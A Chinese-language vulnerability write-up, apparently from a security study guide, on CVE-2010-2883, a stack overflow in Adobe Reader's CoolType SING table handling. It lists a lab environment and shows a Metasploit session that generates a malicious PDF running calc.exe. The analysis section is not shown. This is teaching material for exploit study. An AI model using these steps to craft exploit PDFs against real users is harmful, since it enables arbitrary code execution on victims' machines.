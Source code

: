 # 7.1.8 CVE-2010-2883 Adobe CoolType SING 表栈溢出漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [参考资料](#参考资料)

[下载文件](../src/exploit/7.1.8_adobe_reader_2010-2883)

## 漏洞描述

Adobe Reader 和 Acrobat 9.4 之前版本的 CoolType.dll 中存在基于栈的缓冲区溢出漏洞。远程攻击者可借助带有 TTF 字体的 Smart INdependent Glyphlets (SING) 表格中超长字段的 PDF 文件执行任意代码或者导致拒绝服务。

## 漏洞复现

| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Windows XP SP3 | 体系结构：32 位 |
| 调试器 | OllyDbg | 版本号：吾爱专版 |
| 反汇编器 | IDA Pro | 版本号：6.8 |
| 漏洞软件 | Adobe Reader | 版本号：9.3.4 |

我们利用 Metasploit 来生成攻击样本：

```text
msf > search cve-2010-2883
   Name                                            Disclosure Date  Rank   Description
   ----                                            ---------------  ----   -----------
   exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow

msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(windows/fileformat/adobe_cooltype_sing) > show info

msf exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/exec
payload => windows/exec

msf exploit(windows/fileformat/adobe_cooltype_sing) > set cmd calc.exe
cmd => calc.exe

msf exploit(windows/fileformat/adobe_cooltype_sing) > set filename cve20102883.pdf
filename => cve20102883.pdf

msf exploit(windows/fileformat/adobe_cooltype_sing) > exploit
[*] Creating 'cve20102883.pdf' file...
[+] cve20102883.pdf stored at /home/firmy/.msf4/local/cve20102883.pdf
```
